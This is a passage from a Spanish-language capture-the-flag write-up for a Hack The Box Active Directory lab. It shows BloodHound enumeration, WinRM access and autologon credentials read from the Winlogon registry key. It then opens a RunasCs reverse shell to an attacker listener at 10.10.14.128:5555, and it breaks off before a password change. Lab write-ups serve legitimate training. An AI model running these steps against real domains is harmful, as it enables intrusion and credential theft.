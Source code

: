 ahora recolectamos informacion con `bloodhound-python`

```bash
bloodhound-python -u 'nathan.aadam' -p '3edc#EDC3' -k -d mirage.htb -ns 10.10.11.78 -c ALl --zip
```

<img width="1920" height="448" alt="image" src="https://github.com/user-attachments/assets/630e6ea1-013e-46d9-ad63-bd95866def05" />

lo exportamos a `bloodhound`

<img width="1920" height="970" alt="image" src="https://github.com/user-attachments/assets/ec18b970-0f38-42cc-a210-ba4460bca620" />

como se observa en el grafico, este usuario pertenece al grupo `REMOTE MANAGEMENT` por lo que podemos acceder via `WinRm`

```bash
evil-winrm -i DC01.mirage.htb -k -u nathan.aadam -r MIRAGE.HTB
```

<img width="1920" height="449" alt="image" src="https://github.com/user-attachments/assets/2eab34b4-ad26-443b-ab4f-dd5408eed915" />


Despues de un rato buscando en el sistema, si revisamos el registro `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` obtenemos credenciales de un nuevo usuario

>>> Registro {HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon} : almacena configuraciones relacionadas con el proceso de inicio de sesión interactivo, es un registro muy importante debido a que si el sistema esta configurado para el inicio de sesión automático, aqui en este registro se almacenan las credenciales en texto plano



```powershell
PS C:\Users\nathan.aadam\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


<img width="1920" height="900" alt="image" src="https://github.com/user-attachments/assets/4e520c9d-91c5-4f03-8c40-1b831f595430" />

como no es posible acceder via `WinRm` con este usuario haremos uso de `RunasCs.exe` para establecer una shell, primero la cargamos y luego lanzamos la shell

```bash
nc -lnvp 5555 # esperamos la revershell en nuestra maquina
```
```powershell
./RunasCs.exe mark.bbond 1day@atime powershell -r 10.10.14.128:5555 # envio la shell como el nuevo usuario
```

<img width="1920" height="709" alt="image" src="https://github.com/user-attachments/assets/1a59d7cd-3a7a-4014-a1cf-d06502f64106" />

obtenemos acceso como el usuario `mark.bbond`, ahora vamos a chequear en `bloodhound`

<img width="1920" height="965" alt="image" src="https://github.com/user-attachments/assets/b795cc98-40b5-4c95-96bc-b2b025b18ae5" />

podemos cambiar la password del usuario `javier.mmarshall` asi que ejecutamos:
